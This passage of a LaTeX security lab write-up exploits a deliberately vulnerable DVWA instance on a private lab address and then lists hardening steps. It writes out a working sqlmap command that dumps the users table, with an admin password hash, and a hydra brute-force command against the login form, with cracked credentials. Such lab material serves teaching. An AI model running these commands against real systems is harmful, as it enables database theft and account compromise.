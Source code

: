 	extbf{Exploit SQL injection:}
\begin{verbatim}
$ sqlmap -u "http://192.168.56.101/login.php" --dump
[INFO] fetching database users
Database: dvwa
Table: users
admin | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@dvwa.local
\end{verbatim}

	extbf{Brute-force login:}
\begin{verbatim}

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.101 http-post-form \
"/login.php:username=^USER^&password=^PASS^:F=incorrect"
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
\end{verbatim}

\subsection*{Step 5: Mitigation and Hardening}
	extbf{Definition:} Mitigation involves applying security controls to reduce risk and prevent exploitation\cite{uceda2015}.
\begin{itemize}
    \item Patch and update all software components
    \item Enforce strong authentication (MFA, password policy)
    \item Use parameterized queries and ORM to prevent SQL injection
    \item Configure firewalls (e.g., ufw, iptables)
    \item Monitor logs for suspicious activity
    \item Set secure cookie flags (HttpOnly, Secure)
\end{itemize}

\subsection*{Lab Summary}
This lab demonstrates the end-to-end process of threat modeling, vulnerability discovery, exploitation, and mitigation in a controlled environment. The approach aligns with best practices from OWASP, NIST, and leading security literature\cite{owasp,shostack2014,uceda2015,nist800154}.
